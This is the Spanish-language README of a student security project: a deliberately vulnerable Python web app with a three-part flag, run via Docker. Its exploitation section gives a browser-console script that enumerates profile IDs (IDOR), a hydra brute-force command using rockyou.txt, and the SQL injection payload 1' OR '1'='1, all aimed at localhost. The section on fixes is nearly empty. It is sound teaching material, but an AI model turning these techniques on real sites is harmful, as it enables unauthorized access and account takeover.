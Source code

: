# Trabajo Integrador DSA 2025  

Se desarrolló una aplicación en python vulnerable a ataques de fuerza bruta y SQL Injection. Además, presenta una vulnerabilidad de tipo Broken Access Control, específicamente Insecure Direct Object Reference (IDOR).

## Autores  
- Federica Montagna (02849/9)
- Juliana Soto (03157/1)
- Lola Dell'Oso (03088/5)

## Dockerfile y docker-compose.yml  
  Se debe ejecutar el comando 'docker compose up' para que Docker levante la aplicación.
  

## Setear la flag  
La aplicación cuenta con una flag dividida en 3 partes. Para cambiar los valores de cada flag, se debe modificar el archivo ./tpi_python/config/.env

Para ver el valor actual de las flags, ejecutar:
cat ./tpi_python/config/.env

Adicionalmente, se pueden modificar las pistas de la página para conseguir la totalidad de las flags.

## Explotación de vulnerabilidades

### Encontrar al usuario admin:
  - Vulnerabilidad IDOR: se debe ejecutar en la consola del navegador el siguiente script:

(async() => {
    for(let id = 2; id <= 100; id++){
        const response = await fetch(`http://localhost:15000/perfil/${id}`);
        const html = await response.text();
        if(html.includes("admin")){
            console.log(`admin encontrado en /perfil/${id}`);
        }
    }
})();

### Encontrar al usuario DSA:
 - Vulnerable a fuerza bruta: se debe ejecutar el siguiente comando:

 hydra -l DSA -P ../rockyou.txt "http-form-post://localhost:15000/login:usuario=^USER^&contrasena=^PASS^:Credenciales inválidas. Por favor, inténtalo de nuevo."

### Encontrar al club con la flag
- Vulnerabilidad SQL Injection: se debe realizar una inyección de SQL haciendo la siguiente búsqueda: 

1' OR '1'='1


## Código corregido

SQL Injection --> 
IDOR --> 
Fuerza bruta --> captcha